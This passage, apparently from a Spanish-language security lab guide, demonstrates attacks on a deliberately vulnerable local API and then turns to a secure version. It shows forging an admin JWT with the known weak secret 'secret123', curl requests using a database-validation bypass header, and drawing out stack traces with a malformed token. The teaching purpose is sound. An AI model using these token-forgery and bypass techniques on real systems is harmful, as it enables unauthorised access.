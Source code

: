 #### Crear JWT manualmente con secreto conocido:
```bash
# Instalar herramienta JWT (si no la tienes)
# npm install -g jsonwebtoken-cli

# Crear token con secreto débil conocido "secret123"
echo '{"id": 999, "admin": true}' | jwt sign --secret "secret123"
```

#### O usar herramienta online:
- Ir a https://jwt.io/
- Payload: `{"id": 999, "admin": true, "iat": 1640995200}`
- Secreto: `secret123`
- Usar el JWT generado para acceder a recursos

### Paso 10: 🚨 **VULNERABILIDAD 8 - Saltarse Validación de Base de Datos**

#### Usar usuario inexistente:
```bash
curl -X GET http://localhost:3000/api/usuarios/perfil \
  -H "Authorization: Bearer [JWT_CON_ID_FALSO]" \
  -H "x-skip-db-validation: true"
```

### Paso 11: 🚨 **VULNERABILIDAD 9 - Información Detallada de Errores**

#### Obtener información del sistema mediante errores:
```bash
curl -X GET http://localhost:3000/api/usuarios/perfil \
  -H "Authorization: Bearer token_malformado"
```

**⚠️ Resultado:** Stack traces y detalles internos expuestos.

---

## 🟢 **PARTE 2: IMPLEMENTACIÓN SEGURA**

### Paso 12: Cambiar a la Rama Segura
```bash
git checkout main
```

### Paso 13: Desplegar Versión Segura
```bash
# Reiniciar API con código seguro
sudo docker compose restart api
```

### Paso 14: ✅ **Verificar que los Ataques Fallan**
